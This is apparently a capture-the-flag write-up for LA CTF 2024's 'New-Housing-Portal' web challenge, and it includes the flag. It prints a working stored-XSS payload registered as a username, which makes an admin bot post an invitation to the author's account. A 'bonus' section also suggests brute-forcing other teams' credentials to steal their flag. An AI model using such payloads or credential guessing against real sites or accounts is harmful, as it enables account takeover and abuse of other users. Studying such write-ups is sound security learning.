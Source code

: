 ```yaml
---
title: New-Housing-Portal
date: 2024-02-18T20:05:23+02:00
description: Writeup for New-Housing-Portal [LA CTF 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?

## Intuition

When I register to the website I can exploit an XSS vulnerability on my username. In order to get the flag I need to get an invitation from
the admin. In order to force the admin to send me an invitation I probably have to use an SSRF vulnerability to make him use the invitation request API. 
To resume, I can use the XSS vulnerability chained with an SSRF to get the flag. The xss payload used to discover the vulnerability is the following:

```html
<img src=x onerror="alert('vulnerable')">
```

![XSS](/images/la_ctf_2024/xss.png)

## Solution

First I need to register using the following XSS payload as username:

```html
<img src=x onerror="var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/finder',true);
req.send();
function handleResponse(d) {
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/finder', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('username=brole');
};">
```

The above payload use an SSRF exploit to call the invitation request API and send an invitation to the user `brole`.
Then, I will register another account which will receive the invitation of the admin (brole in this case). The next step is to 
use the admin bot link and send him the following link which is the URL to my XSS vulnerable profile:

```http request
https://new-housing-portal.chall.lac.tf/finder/?q=<img src=x onerror="var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/finder',true); req.send(); function handleResponse(d) {     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/finder', true);     changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');     changeReq.send('username=brole'); };">

```
The bot will visit the profile and in background it will send the invitation to the user `brole`. After that, I will receive the invitation and I can use it to get the flag.

![XSS flag](/images/la_ctf_2024/secret.png)

### BONUS

A very smart way to find the flag (but smaller chance to succeed) is to brute force a very stupid username and password and
pray. If you are lucky enough you will find the credentials used by another team that already got the admin invitation and therefore
steal their flag 😈.

### Flag

`lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`


